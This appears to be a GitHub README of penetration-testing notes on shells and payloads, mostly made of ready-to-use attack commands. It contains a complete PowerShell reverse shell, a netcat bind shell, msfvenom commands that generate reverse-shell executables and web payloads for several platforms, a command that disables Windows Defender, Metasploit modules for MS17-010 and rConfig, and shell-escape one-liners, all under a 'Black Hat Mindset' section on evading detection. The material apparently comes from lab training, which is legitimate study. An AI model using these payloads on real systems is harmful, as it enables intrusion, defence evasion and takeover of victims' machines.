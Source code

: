 # Basic Methodology - Shells and Payloads

This README explores techniques for creating and using shells and payloads to gain remote access to target systems.

## Table of Contents

- [Introduction](#introduction)
- [Setup and Prerequisites](#setup-and-prerequisites)
- [Netcat Listener and Connection](#netcat-listener-and-connection)
- [Netcat Bind Shell](#netcat-bind-shell)
- [PowerShell Reverse Shell](#powershell-reverse-shell)
- [Disabling Windows Defender Real-Time Monitoring](#disabling-windows-defender-real-time-monitoring)
- [Using Metasploit for Shells](#using-metasploit-for-shells)
- [Generating Payloads with msfvenom](#generating-payloads-with-msfvenom)
- [Exploiting Vulnerabilities with Metasploit](#exploiting-vulnerabilities-with-metasploit)
- [Spawning Interactive Shells on Linux](#spawning-interactive-shells-on-linux)
- [Enumeration for Privilege Escalation](#enumeration-for-privilege-escalation)
- [Web Shell Locations](#web-shell-locations)
- [Black Hat Mindset](#black-hat-mindset)
- [Resources](#resources)

## Introduction

Shells and payloads are essential for gaining remote access to target systems, executing commands, and maintaining persistence. This guide covers setting up listeners with netcat, generating reverse shells with PowerShell and msfvenom, exploiting vulnerabilities with Metasploit, and spawning interactive shells on Linux systems.

## Setup and Prerequisites

- **Environment**: Linux host for most commands; Windows host for PowerShell and specific Metasploit exploits.
- **Tools**: Install netcat (e.g., `apt install netcat`), metasploit-framework, msfvenom, Python, Perl, Ruby, Lua, awk, find, vim, and ensure `/usr/share/webshells/laudanum` and `/usr/share/nishang/Antak-WebShell` are accessible (on ParrotOS/Pwnbox).
- **IP Address**: Identify the attack host IP (e.g., 10.10.14.113, 10.129.41.200).
- **Permissions**: Administrative access may be required for some commands (e.g., disabling Windows Defender, running Metasploit exploits).

## Netcat Listener and Connection

Set up a listener and connect to it for a reverse shell.

```bash
# Starts a netcat listener on the specified port (Linux)
sudo nc -lvnp <port #>

# Connects to the netcat listener (Linux)
nc -nv <ip address of computer with listener started> <port being listened on>
```

Example:
```bash
# Listener
sudo nc -lvnp 7777

# Connect
nc -nv 10.129.41.200 7777
```

## Netcat Bind Shell

Serve a shell to remote connections.

```bash
# Creates a bind shell using /bin/bash, serving it via netcat
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f
```

Usage:
```bash
# Connect from another host
nc 10.129.41.200 7777
```

## PowerShell Reverse Shell

Generate a PowerShell reverse shell.

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

Setup:
```bash
# Listener
sudo nc -lvnp 443
```

## Disabling Windows Defender Real-Time Monitoring

Bypass Windows Defender for payload execution.

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```

## Using Metasploit for Shells

Drop into a system shell or exploit vulnerabilities with Metasploit.

```bash
# Select the psexec exploit to gain a shell via SMB
msf6 > use exploit/windows/smb/psexec

# Drop into a system shell from a Meterpreter session
meterpreter > shell

# Scan for MS17-010 vulnerability
msf6 > use auxiliary/scanner/smb/smb_ms17_010

# Exploit MS17-010 to gain a shell
msf6 > use exploit/windows/smb/ms17_010_psexec

# Exploit rConfig 3.9.6 for a shell
msf6 > use exploit/linux/http/rconfig_vendors_auth_file_upload_rce
```

## Generating Payloads with msfvenom

Create reverse shell payloads for various platforms.

```bash
# Linux reverse shell (ELF)
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > nameoffile.elf

# Windows reverse shell (EXE)
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > nameoffile.exe

# macOS reverse shell (Mach-O)
msfvenom -p osx/x86/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f macho > nameoffile.macho

# ASP Meterpreter reverse shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.113 LPORT=443 -f asp > nameoffile.asp

# JSP reverse shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f raw > nameoffile.jsp

# WAR reverse shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f war > nameoffile.war
```

Usage:
```bash
# Set up a listener
sudo nc -lvnp 443  # or use Metasploit's exploit/multi/handler
```

## Exploiting Vulnerabilities with Metasploit

Target specific vulnerabilities for shell access.

```bash
# Scan for MS17-010 (EternalBlue) vulnerability
msf6 > use auxiliary/scanner/smb/smb_ms17_010

# Exploit MS17-010 to gain a shell
msf6 > use exploit/windows/smb/ms17_010_psexec

# Exploit rConfig 3.9.6 for a shell
msf6 > use exploit/linux/http/rconfig_vendors_auth_file_upload_rce
```

## Spawning Interactive Shells on Linux

Spawn interactive shells using various methods.

```bash
# Python
python -c 'import pty; pty.spawn("/bin/sh")'

# Basic shell
/bin/sh -i

# Perl
perl —e 'exec "/bin/sh";'

# Ruby
ruby: exec "/bin/sh"

# Lua
lua: os.execute('/bin/sh')

# AWK
awk 'BEGIN {system("/bin/sh")}'

# Find with AWK
find / -name nameoffile 'exec /bin/awk 'BEGIN {system("/bin/sh")}' ;

# Find direct
find . -exec /bin/sh \; -quit

# Vim (useful for escaping jail shells)
vim -c ':!/bin/sh'
```

## Enumeration for Privilege Escalation

Identify opportunities for privilege escalation.

```bash
# List files and permissions
ls -la <path/to/fileorbinary>

# Display commands the current user can run with sudo
sudo -l
```

## Web Shell Locations

Access pre-installed web shells on ParrotOS/Pwnbox.

- `/usr/share/webshells/laudanum` - Location of Laudanum web shells
- `/usr/share/nishang/Antak-WebShell` - Location of Antak web shell

## Black Hat Mindset

- **Gain Access**: Use netcat, PowerShell, and Metasploit to establish remote shells.
- **Bypass Defenses**: Disable Windows Defender and use stealthy payloads to avoid detection.
- **Exploit Vulnerabilities**: Target known exploits (e.g., MS17-010, rConfig) for shell access.
- **Stay Silent**: Use bind shells and interactive shell-spawning to maintain access discreetly.

## Resources

- [Netcat Manual](https://netcat.sourceforge.net/)
- [Metasploit Documentation](https://docs.metasploit.com/)
- [msfvenom Payloads](https://www.offensive-security.com/metasploit-unleashed/msfvenom/)
- [Nishang GitHub](https://github.com/samratashok/nishang)

